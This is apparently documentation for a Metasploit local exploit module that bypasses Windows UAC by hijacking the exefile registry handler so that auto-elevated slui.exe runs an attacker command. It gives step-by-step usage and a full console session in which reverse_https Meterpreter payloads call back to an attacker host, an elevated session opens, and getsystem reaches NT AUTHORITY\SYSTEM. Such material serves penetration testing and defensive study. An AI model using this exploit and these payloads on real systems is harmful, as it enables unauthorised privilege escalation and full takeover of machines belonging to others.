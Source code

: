 ## Intro

  This module will bypass UAC on Windows 8-10 by hijacking a special key in the Registry under
  the Current User hive, and inserting a custom command that will get invoked when
  any binary (.exe) application is launched. But slui.exe is an auto-elevated binary that is
  vulnerable to file handler hijacking. When we run slui.exe with changed Registry key
  (HKCU:\Software\Classes\exefile\shell\open\command), it will run our custom command as Admin
  instead of slui.exe.

  The module modifies the registry in order for this exploit to work. The modification is
  reverted once the exploitation attempt has finished.
	
  The module does not require the architecture of the payload to match the OS. If
  specifying EXE::Custom your DLL should call ExitProcess() after starting the
  payload in a different process.

## Usage
	
  1. First we need to obtain a session on the target system.
  2. Load module: `use exploit/windows/local/bypassuac_sluihijack`
  3. Set the `payload`: `set payload windows/x64/meterpreter/reverse_tcp`
  4. If an existing handler is configured to receive the elevated session,
  then the module's handler should be disabled: `set DisablePayloadHandler true`.
  5. Configure the `payload`.
  6. `Exploit` it.

## Scenario

```
msf exploit(multi/handler) > 
[*] https://192.168.0.30:443 handling request from 192.168.0.33; (UUID: d4iywkip) Encoded stage with x86/shikata_ga_nai
[*] https://192.168.0.30:443 handling request from 192.168.0.33; (UUID: d4iywkip) Staging x86 payload (180854 bytes) ...
[*] Meterpreter session 1 opened (192.168.0.30:443 -> 192.168.0.33:49875) at 2018-04-07 18:33:11 +0200

msf exploit(multi/handler) > sessions 

Active sessions
===============

  Id  Name  Type                     Information                 Connection
  --  ----  ----                     -----------                 ----------
  1         meterpreter x86/windows  WIN10-01\user01 @ WIN10-01  192.168.0.30:443 -> 192.168.0.33:49875 (192.168.0.33)

msf exploit(multi/handler) > sessions 1
[*] Starting interaction with 1...

meterpreter > sysinfo 
Computer        : WIN10-01
OS              : Windows 10 (Build 16299).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getuid 
Server username: WIN10-01\user01
meterpreter > getprivs 

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > background 
[*] Backgrounding session 1...
msf exploit(multi/handler) > use exploit/windows/local/bypassuac_sluihijack
msf exploit(windows/local/bypassuac_sluihijack) > show targets 

Exploit targets:

   Id  Name
   --  ----
   0   Windows x86
   1   Windows x64


msf exploit(windows/local/bypassuac_sluihijack) > set target 1
target => 1
msf exploit(windows/local/bypassuac_sluihijack) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf exploit(windows/local/bypassuac_sluihijack) > set session 1
session => 1
msf exploit(windows/local/bypassuac_sluihijack) > set LHOST 192.168.0.30
LHOST => 192.168.0.30
msf exploit(windows/local/bypassuac_sluihijack) > exploit 

[*] Started HTTPS reverse handler on https://192.168.0.30:8443
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Configuring payload and stager registry keys ...
[*] Executing payload: C:\Windows\Sysnative\cmd.exe /c powershell Start-Process C:\Windows\System32\slui.exe -Verb runas
[*] https://192.168.0.30:8443 handling request from 192.168.0.33; (UUID: znqja6ua) Staging x64 payload (207449 bytes) ...
[*] Meterpreter session 2 opened (192.168.0.30:8443 -> 192.168.0.33:49881) at 2018-04-07 18:34:39 +0200
[*] Cleaining up registry keys ...

meterpreter > getprivs 

Enabled Process Privileges
==========================

Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > getsystem 
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
